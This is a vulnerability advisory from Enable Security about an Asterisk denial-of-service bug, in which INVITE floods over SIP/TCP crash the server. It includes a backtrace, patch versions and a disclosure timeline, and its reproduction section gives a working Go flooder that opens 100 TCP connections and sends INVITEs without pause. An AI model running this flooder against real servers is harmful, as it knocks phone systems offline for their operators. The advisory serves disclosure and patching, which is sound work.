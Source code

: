 # Asterisk crash due to INVITE flood over TCP

- Fixed versions: 13.37.1, 16.14.1, 17.8.1, 18.0.1
- Enable Security Advisory: https://github.com/EnableSecurity/advisories/tree/master/ES2020-02-asterisk-tcp-invite-crash
- Asterisk Security Advisory: https://downloads.asterisk.org/pub/security/AST-2020-001.html
- Tested vulnerable versions: 17.5.1, 17.6.0
- Timeline:
    - Report date: 2020-08-31
	- Triaged: 2020-09-01
	- Fix provided for testing: 2020-10-29
	- Asterisk release with fix: 2020-11-05
	- Enable Security advisory: 2020-11-06

## Description

When an Asterisk instance is flooded with INVITE messages over TCP, it was observed that after some time Asterisk crashes due to a segmentation fault. The backtrace generated after the crash is:

```
3276        PJ_ASSERT_RETURN((cseq=(pjsip_cseq_hdr*)pjsip_msg_find_hdr(tdata->msg, PJSIP_H_CSEQ, NULL))!=NULL
(gdb) bt
#0  0x00007ffff7df1b80 in pjsip_inv_send_msg (inv=0x7fffc88aa5a8, tdata=0x7fffa706a6d8) at ../src/pjsip-ua/sip_inv.c:3276
#1  0x00007ffff4623c41 in ast_sip_session_send_response (session=0x7fffc88ab9f0, tdata=0x7fffa706a6d8) at res_pjsip_session.c:1917
#2  0x00007ffff4627b6b in new_invite (invite=0x7fff94eccb60) at res_pjsip_session.c:3253
#3  0x00007ffff462815b in handle_new_invite_request (rdata=0x7fffa61ec608) at res_pjsip_session.c:3382
#4  0x00007ffff462833d in session_on_rx_request (rdata=0x7fffa61ec608) at res_pjsip_session.c:3446
#5  0x00007ffff7e190ec in pjsip_endpt_process_rx_data (endpt=0x5555559c9d18, rdata=0x7fffa61ec608, p=0x7ffff47c66a0 <param>, p_handled=0x7fff94eccc6c) at ../src/pjsip/sip_endpoint.c:930
#6  0x00007ffff47922a1 in distribute (data=0x7fffa61ec608) at res_pjsip/pjsip_distributor.c:955
#7  0x000055555574c7e1 in ast_taskprocessor_execute (tps=0x555555bb5a80) at taskprocessor.c:1237
#8  0x0000555555756dc7 in execute_tasks (data=0x555555bb5a80) at threadpool.c:1354
#9  0x000055555574c7e1 in ast_taskprocessor_execute (tps=0x5555559c8040) at taskprocessor.c:1237
#10 0x0000555555754698 in threadpool_execute (pool=0x5555559c6070) at threadpool.c:367
#11 0x000055555575655d in worker_active (worker=0x7fff98003e50) at threadpool.c:1137
#12 0x00005555557562bb in worker_start (arg=0x7fff98003e50) at threadpool.c:1056
#13 0x00005555557604ad in dummy_start (data=0x7fffa41fb6e0) at utils.c:1249
#14 0x00007ffff764e609 in start_thread (arg=<optimized out>) at pthread_create.c:477
#15 0x00007ffff728b103 in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:95
```

## Impact

Abuse of this vulnerability leads to denial of service in Asterisk when SIP over TCP is in use.

## How to reproduce the issue

The following `pjsip.conf` configuration file was used to facilitate the reproduction of this issue:

```
[global]
debug=yes

[transport-tcp]
type = transport
protocol = tcp
bind = 0.0.0.0

[anonymous]
type = endpoint
context = anon
allow = all
```

The following code in Go can be used to reproduce this issue:

```go
package main

import (
	"bytes"
	"flag"
	"fmt"
	"math/rand"
	"net"
	"strconv"
	"strings"
	"time"
)

const charset = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

func init() {
	rand.Seed(time.Now().UnixNano())
}

func randstr(length int) string {
	b := make([]byte, length)
	for i := range b {
		b[i] = charset[rand.Intn(len(charset))]
	}
	return string(b)
}

type loop struct {
	host   string
	port   int
	conn   net.Conn
	invite []byte
	cseq   int
}

func (l *loop) start() {
	sdp := "v=0\r\n"
	sdp += "o=- 1598350717 1598350717 IN IP4 192.168.1.112\r\n"
	sdp += "s=-\r\n"
	sdp += "c=IN IP4 192.168.1.112\r\n"
	sdp += "t=0 0\r\n"
	sdp += "m=audio 9999 RTP/AVP 0\r\n"
	sdp += "a=rtpmap:0 PCMU/8000/1\r\n"
	sdp += "a=sendrecv\r\n"

	invite := "INVITE sip:5cb49ced@127.0.0.1:5060 SIP/2.0\r\n"
	invite += "Via: SIP/2.0/UDP 192.168.1.112:44896;rport;branch=z9hG4bK-_BRANCH_\r\n"
	invite += "Max-Forwards: 70\r\n"
	invite += "From: <sip:5cb49ced@127.0.0.1:5060>;tag=2k309f\r\n"
	invite += "To: <sip:5cb49ced@127.0.0.1:5060>\r\n"
	invite += "Call-ID: 2345908ux\r\n"
	invite += "CSeq: _CSEQ_ INVITE\r\n"
	invite += "Contact: <sip:5cb49ced@192.168.1.112:44896;transport=udp>\r\n"
	invite += fmt.Sprintf("Content-Length: %d\r\n", len(sdp))
	invite += "Content-Type: application/sdp\r\n"
	invite += "\r\n"
	invite += sdp

	l.invite = []byte(invite)

	var err error
	l.conn, err = net.DialTimeout("tcp4", fmt.Sprintf("%s:%d", l.host, l.port), 5*time.Second)
	if err != nil {
		fmt.Println(err.Error())
		time.Sleep(10 * time.Millisecond)
		go l.start()
		return
	}

	if l.conn != nil {
		l.run()
	} else {
		time.Sleep(10 * time.Millisecond)
		go l.start()
	}
}

func (l *loop) run() {
	if err := l.conn.SetWriteDeadline(time.Now().Add(10 * time.Millisecond)); err != nil {
		if strings.Contains(err.Error(), "use of closed network connection") {
			l.start()
		}

	}

	var err error
	for {
		l.cseq++
		inv := l.invite
		inv = bytes.ReplaceAll(inv, []byte("_BRANCH_"), []byte(randstr(8)))
		inv = bytes.ReplaceAll(inv, []byte("_CSEQ_"), []byte(strconv.Itoa(l.cseq)))

		if _, err = l.conn.Write(inv); err != nil {
			go l.start()
			return
		}
	}
}

func main() {
	var port = flag.Int("p", 5060, "Port")
	var host = flag.String("h", "127.0.0.1", "Host")
	flag.Parse()

	for i := 0; i < 100; i++ {
		go func() {
			l := loop{
				host: *host,
				port: *port,
			}
			l.start()
		}()
	}
	select {}
}
```

## Solution and recommendations

Apply the patch provided by Asterisk or upgrade to a fixed version.

Enable Security would like to thank Kevin Harwell, Joshua C. Colp and the staff at Asterisk for the very quick response and fixing this security issue.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) develops offensive security tools and provides quality penetration testing to help protect your real-time communications systems against attack.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.

## Disclosure policy

This report is subject to Enable Security's vulnerability disclosure policy which can be found at <https://github.com/EnableSecurity/Vulnerability-Disclosure-Policy>.

